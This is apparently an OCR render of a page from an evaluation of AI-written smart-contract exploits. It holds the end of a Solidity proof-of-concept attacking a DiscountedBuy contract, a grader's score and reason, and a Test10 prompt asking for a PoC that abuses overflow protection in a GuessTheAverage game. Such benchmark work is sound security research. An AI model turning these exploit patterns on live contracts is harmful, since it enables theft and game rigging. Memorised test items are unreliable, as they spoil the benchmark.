 ```solidity
            targetContract.buy{value: amountToPay}();
        }

        // Additional code or checks can be added here to verify the success of the attack.
    }

    // The function that receives Ethereum.。msg.data must be empty
    receive() external payable {}

    // The backup function called when msg.data is not empty
    fallback() external payable {}
}

/// @dev is an interface used to interact with DiscountedBuy contracts
interface DiscountedBuy {
    function buy() external payable;
    function price() external view returns (uint256);
}

```

#### Result:

Score: 8

Reason: The analysis is correct, and the logic of the PoC is also correct. However, it does not demonstrate that the third attempt will fail, but rather that calling the exploit function will revert.

### Test10

#### Prompt：

The following smart contract has vulnerabilities:{A malicious user can set the average to a large number such as uint256.max during guess. Then, when calculating the average, due to the overflow protection, other users will not be able to successfully participate in the calculation, and the malicious user can successfully determine the final random number.} You are required to combine the above analysed vulnerabilities and the given smart contract to write a Solidity-based proof of concept(PoC).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/// @dev Each player tries to guess the average of all the players' revealed answers combined.
///      They must pay 1 ETH to play.
///      The winners are those who are nearest to the average.
///      Note that some players may not reveal and use multiple accounts; this is part of the game and can be used tactically.
///      Also note that waiting until the last minute to reveal is also part of the game and can be used tactically (but it would probably cost a lot of gas).
contract GuessTheAverage {
    enum Stage {
        CommitAndRevealPeriod,
        AverageCalculated,
        WinnersFound,
        Distributed
    }

    struct Player {
        address player;
        uint256 guess;
    }

    uint256 public immutable start; // Beginning of the game.
    uint256 public immutable commitDuration; // Duration of the Commit Period.
```